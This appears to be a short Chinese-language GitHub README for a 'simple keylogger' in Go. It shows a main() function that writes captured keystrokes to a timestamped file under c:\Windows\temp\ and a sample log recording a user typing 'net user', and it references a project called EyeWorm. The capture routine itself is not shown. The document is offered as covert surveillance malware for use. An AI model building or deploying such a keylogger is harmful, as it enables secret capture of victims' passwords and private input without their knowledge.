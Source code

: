 # 简易键盘记录器

## 文件记录在 c:\\Windows\\temp\\ 目录下，以时间戳命名。
```
func main() {
	timeUnix := time.Now().Unix()
	KeylogSavePath = fmt.Sprintf("c:\\Windows\\temp\\%d.txt", timeUnix)

	Keylogger()
}
```

## 内容格式
```
2023/03/11 17:56:05 [Enter]
2023/03/11 17:56:06 n
2023/03/11 17:56:07 e
2023/03/11 17:56:07 t
2023/03/11 17:56:07  
2023/03/11 17:56:07 u
2023/03/11 17:56:07 s
2023/03/11 17:56:08 e
2023/03/11 17:56:08 r
2023/03/11 17:56:08 [Enter]
```



## 参考项目
1. https://github.com/JayGitH/EyeWorm

